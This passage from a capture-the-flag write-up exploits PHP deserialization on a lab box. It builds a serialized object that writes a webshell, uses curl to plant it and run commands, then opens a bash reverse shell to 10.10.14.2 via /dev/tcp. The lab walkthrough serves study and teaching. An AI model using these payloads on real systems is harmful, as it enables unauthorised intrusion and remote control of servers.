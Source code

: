 ### Create Serialized Object

To create a serialized PHP object, I’ll use PHP. This script will create the
object with the right variables, and then print the serialized version:

    
    
    <?php
    
    class DatabaseExport {
    
        public $user_file = "0xdf.php";
        public $data = '<?php system($_REQUEST["cmd"]); ?>';
    
    }
    
    $sploit = new DatabaseExport;
    echo serialize($sploit);
    ?>
    

Running it prints the serialized object:

    
    
    root@kali# php exp.php 
    O:14:"DatabaseExport":2:{s:9:"user_file";s:8:"0xdf.php";s:4:"data";s:34:"<?php system($_REQUEST["cmd"]); ?>";}
    

### Write Webshell

Now I’ll call `sator.php` passing this object. I can have `curl` url-encode
GET parameters by passing in `-G` and `--data-urlencode`:

    
    
    root@kali# curl -G http://10.10.10.223/sator.php --data-urlencode 'arepo=O:14:"DatabaseExport":2:{s:9:"user_file";s:8:"0xdf.php";s:4:"data";s:34:"<?php system($_REQUEST["cmd"]); ?>";}' --proxy 127.0.0.1:8080
    [+] Grabbing users from text file <br>
    [] Database updated <br>[] Database updated <br>
    

I’ll notice that “Database updated” prints twice. That’s once for the
`DatabaseExport` object stored in `$app`, and once for my object.

Checking for the webshell, it’s there:

    
    
    root@kali# curl http://10.10.10.223/0xdf.php?cmd=id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    

### Shell

To go from webshell to shell, I’ll trigger the webshell with the following
reverse shell:

    
    
    root@kali# curl -X GET http://10.10.10.223/0xdf.php -G --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/10.10.14.2/443 0>&1"'
    